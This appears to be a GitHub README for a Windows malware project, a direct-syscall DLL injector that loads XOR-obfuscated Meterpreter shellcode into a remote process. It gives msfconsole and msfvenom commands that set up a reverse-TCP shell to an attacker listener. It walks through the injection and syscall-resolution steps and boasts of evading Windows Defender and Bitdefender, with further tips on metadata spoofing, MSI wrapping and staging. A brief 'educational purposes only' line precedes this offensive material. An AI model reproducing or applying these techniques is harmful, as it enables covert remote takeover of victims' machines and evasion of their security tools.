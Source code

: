 # Direct Syscall DLL Injection
<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=350>

Dll injector in a remote process using direct system calls resolved dynamically from ntdll.dll, the Dll uses Syscalls to inject encrypted shellcode into the same process, undetected by Windows Defender and Bitdefender. 

This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code

Similar to the simple Process Injection using Syscalls i made earlier, this malware bypasses Windows Api and part of Native api by using direct syscalls, which are CPU instructions (mostly assembly) that transition from user mode to kernel mode. This bypasses AV hooks, EDRs, and reduces static IAT footprint.

Its a more advanced and stealthier version of my previous dll injector, which used Native api functions.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload, alternatively you can just use the already set shellcode in the code (simple messagbox that says xd):
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they raise the entropy levels too much.

### 2) Injector

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it, remember to disable pre compiled headers like phc before compiling:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA using ```LdrGetProcedureAddress```;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

The syscalls replace the classic WinApi and NativeApi functions: 

- First we read the ntdll.dll export table to find the offset for each syscall;
- In the assembly file you can find the stubs for each function, heres an example: ```mov eax, <syscall_number>```;
- Then we store the syscall numbers globally in ```injection.h```;
- Each variable stores the runtime-resolved number of every Nt* function;
- When using any function we just call the syscall: ```Status = NtOpenProcess(&ProcessHandle, PROCESS_ALL_ACCESS, &OA, &CID)```;

### 3) DLL

The syscalls are used both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll.dll``` functions are sometimes less likely to be hooked by EDRs at user level, because most interactions with the target are done via direct system calls resolved dynamically from ntdll.dll, we should theoreticall bypass any user-mode hooks.

- In order to use Ntdll and syscalls we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- To avoid loader lock issues, a small thread is spawned immediately after the DLL being attached;
- When the library is attached to the process, it decodes the obfuscated shellcode, allocates memory for it, writes it into this memory chunk, and sets the correct permissions;
- Finally it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.


# 🛡 AV Detection

This malware successfully bypasses Windows Defender and Bitdefender!!! 😊 yeee

But AVs look for certain patterns like creating a thread right after execution, so the exe is still detectable by strong AVs or industrial level firewalls...

Here's the DLL, the raw one and the one obfuscated by inserting ntdll metadata into it.

<img src=media/dirsyscall-dll.png align="left" width=300>

<img src=media/dirsyscall-dll-reshacked.png align="left" width=300>

Here's the injector, the raw one, the one obfuscated by inserting vs_community metadata into it, and the MSI wrapped version.

You can obfuscate it even more using tools like soggoth, or by turning it into an iso/linker file, or by using multiple stagers.

The raw one gets more detection than the classic process injection because it extracts the dll and writes it on disk, in the future i will try to inject it directly into the target process with a technique known as manual mapping.

<img src=media/dirsyscall-dll-inj.png align="left" width=300>

<img src=media/dirsyscall-dll-inj-reshacked.png align="left" width=300>

<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=300>
